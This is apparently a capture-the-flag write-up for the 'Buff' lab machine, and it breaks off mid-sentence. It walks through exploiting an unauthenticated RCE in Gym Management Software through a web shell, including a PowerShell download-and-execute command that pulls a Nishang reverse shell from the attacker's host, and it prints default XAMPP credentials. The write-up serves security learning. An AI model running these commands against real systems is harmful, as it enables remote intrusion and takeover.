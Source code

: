 # buff

nmap scan shows that we have 2 ports open, they are 8080,7680

lets browse the 8080 http port first. as we keep navigating the pages, we see there is something here

![](../../.gitbook/assets/image%20%2821%29.png)

there is something called a gym management software here, which the first thing we do is searchsploit and it shows us that we have unauthenticated RCE which is the most interested one for us

![](../../.gitbook/assets/image%20%2822%29.png)

lets get the python script using `searchsploit -m php/webapps/48506.py`. our exploit script exits without conecting to any web shell as such, but if we look at the script, its making use of this  
[`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami`](http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami)\`\`

![](../../.gitbook/assets/image%20%2817%29.png)

we got a shell kind of thing here, so now, I'm going to use nishang powershell script to get us back a reverse shell

lets host the Nishang `Invoke-PowerShellTcp.ps1` script on our webserver and run it from the uploaded web shell that we have, and we will get a reverse shell from this

```text
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=powershell%20%22iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.28/sh.ps1%27)%22
```

![reverse shell](../../.gitbook/assets/image%20%2824%29.png)

we found a `passwords.txt` on the machine

```text
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords)
```

so, now we got a first shell, and there are couple of listening ports, I want to 

